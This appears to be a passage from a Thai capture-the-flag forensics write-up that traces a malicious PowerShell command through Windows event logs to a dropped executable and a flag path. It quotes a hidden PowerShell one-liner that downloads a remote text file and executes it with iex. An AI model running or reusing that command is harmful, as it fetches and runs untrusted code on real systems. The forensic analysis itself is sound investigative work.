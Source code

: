 ```
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -W Hidden -command $uR=' https://blogoss.fr/hexed/vent.txt'; $reS=Invoke-WebRequest -Uri $uR -UseBasicParsing; $t=$reS.Content; iex $t
```

เราเลยลองหาใน event ว่ามีอะไรที่เกี่ยวกับ https://blogoss.fr/hexed/vent.txt ไหม

```
DESKTOP-81PQ1VF\C\Windows\System32\winevt\logs\Security.evtx
```
![](images/20.webp)
เราจึงลองเลื่อนๆ อ่านว่า หลังจากรันแล้วเกิดอะไรขึ้นบ้าง
![](images/21.webp)
เราเจอว่ามีการเรียกใช้

```
C:\ProgramData\Extrac\kokesh.exe
```

เลยลองเอา path ที่ไฟล์อยู่ไปตอบใน flag format

```
forensic{C:\ProgramData\Extrac}
```

---